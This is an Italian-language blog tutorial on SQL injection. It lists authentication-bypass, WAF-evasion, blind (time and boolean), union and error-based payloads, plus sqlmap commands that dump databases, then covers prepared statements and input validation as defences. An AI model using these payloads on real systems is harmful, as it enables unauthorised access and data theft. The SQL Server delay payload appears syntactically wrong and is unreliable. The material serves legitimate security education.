 ```yaml
---
layout: ../../layouts/BlogLayout.astro
title: "SQL Injection Avanzate: Tecniche di Bypass e Blind Injection"
date: 2024-01-15
author: "stealth"
tags: ["web", "pwn"]
image: "https://images.pexels.com/photos/1181298/pexels-photo-1181298.jpeg?auto=compress&cs=tinysrgb&w=600&h=400&fit=crop"
---
```


Le SQL Injection rappresentano ancora oggi una delle vulnerabilità più critiche nelle applicazioni web. In questo articolo analizziamo tecniche avanzate di exploiting e bypass dei filtri di sicurezza.

## Introduzione alle SQL Injection

Le SQL Injection si verificano quando un'applicazione web non sanitizza correttamente l'input dell'utente prima di includerlo in una query SQL. Questo permette agli attaccanti di manipolare la struttura della query originale.

### Esempio base

```sql
-- Query vulnerabile
SELECT * FROM users WHERE username = '$username' AND password = '$password';

-- Payload di attacco
username: admin' OR '1'='1' --
password: qualsiasi
```

## Tecniche di Bypass

### 1. Bypass dei filtri WAF

Molti Web Application Firewall (WAF) implementano blacklist per bloccare payload comuni:

```sql
-- Bypass usando concatenazione
' + 'OR' + ' '1'='1' --

-- Bypass usando encoding
admin%27 OR %271%27%3D%271%27 --

-- Bypass usando commenti inline
admin'/**/OR/**/1=1#
```

### 2. Time-based Blind Injection

Quando l'applicazione non restituisce errori SQL visibili:

```sql
-- Test MySQL
admin' AND (SELECT SLEEP(5)) --

-- Test PostgreSQL  
admin' AND (SELECT pg_sleep(5)) --

-- Test SQL Server
admin' AND (SELECT DELAY '0:0:5') --
```

### 3. Boolean-based Blind Injection

Sfruttando differenze nel comportamento dell'applicazione:

```sql
-- Test lunghezza database
admin' AND (SELECT LENGTH(database())) > 5 --

-- Estrazione carattere per carattere
admin' AND (SELECT ASCII(SUBSTRING(database(),1,1))) > 97 --
```

## Tecniche di Estrazione Dati

### Union-based Injection

```sql
-- Determinare numero di colonne
admin' ORDER BY 1 --
admin' ORDER BY 2 --
admin' ORDER BY 3 -- (errore = 2 colonne)

-- Estrazione dati
admin' UNION SELECT username, password FROM users --
```

### Error-based Injection

```sql
-- MySQL
admin' AND (SELECT COUNT(*) FROM information_schema.tables GROUP BY CONCAT(version(),FLOOR(RAND(0)*2))) --

-- PostgreSQL
admin' AND (SELECT xmlagg(xmlelement("x", table_name)) FROM information_schema.tables) --
```

## Automazione con SQLMap

SQLMap è uno strumento essenziale per l'automazione degli attacchi SQL injection:

```bash
# Scansione base
sqlmap -u "http://target.com/page.php?id=1" --dbs

# Bypass WAF
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment,charencode

# Dump database
sqlmap -u "http://target.com/page.php?id=1" -D database_name --dump-all
```

## Prevenzione e Mitigazione

### 1. Prepared Statements

```php
// PHP PDO - Approccio sicuro
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
```

### 2. Stored Procedures

```sql
-- SQL Server
CREATE PROCEDURE GetUser
    @Username NVARCHAR(50),
    @Password NVARCHAR(50)
AS
BEGIN
    SELECT * FROM Users WHERE Username = @Username AND Password = @Password
END
```

### 3. Input Validation

```python
# Python - Validazione robusta
import re

def validate_input(user_input):
    # Whitelist approach
    if re.match("^[a-zA-Z0-9_]{3,20}$", user_input):
        return True
    return False
```

## Conclusioni

Le SQL Injection rimangono una minaccia seria nonostante i numerosi strumenti di protezione disponibili. La chiave è implementare una difesa a più livelli:

1. **Validazione rigorosa dell'input**
2. **Uso di prepared statements**
3. **Principio del minimo privilegio per gli account database**
4. **Monitoring e logging delle query anomale**

La sicurezza delle applicazioni web richiede un approccio proattivo e una comprensione approfondita delle tecniche di attacco per implementare contromisure efficaci.

> **Disclaimer**: Questo articolo è puramente educativo. L'uso di queste tecniche su sistemi non autorizzati è illegale e contrario all'etica hacker.